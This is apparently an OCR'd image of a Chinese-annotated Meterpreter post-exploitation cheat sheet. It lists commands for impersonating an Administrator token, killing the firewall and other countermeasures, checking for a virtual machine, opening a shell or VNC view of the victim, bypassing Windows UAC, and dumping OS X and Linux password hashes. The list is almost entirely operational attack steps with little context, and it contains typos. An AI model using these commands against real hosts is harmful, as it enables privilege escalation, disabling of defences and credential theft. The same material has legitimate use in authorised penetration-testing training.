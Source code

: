 meterpreter > list_tokens -u

meterpreter > impersonate_token INAZSEURITY\\Adminstrator

查看目标主机上采取了哪些防护措施，列出帮助菜单，关闭防火墙以及其他我们发现的防护措施

meterpreter > run getcountermeasure

meterpreter > run getcountermeasure -h

meterpreter > run getcountermeasure -d -k

识别被控制的主机是否为虚拟机

meterpreter > run checkvm

在Meterpreter会话中使用shell

meterpreter > shell

获取目标主机的图形界面

meterpreter > run vnc

使正在运行的Meterpreter界面在后台运行

meterpreter > backgroud

绕过windows用户账户控制UAC机制

meterpreter > run post/windows/escalate/bypassuac

导出os-x系统口令哈希值

meterpreter > run post/osx/gather/hashdump

导出linux系统口令哈希值

meterpreter > run post/linux/gather/hashdump

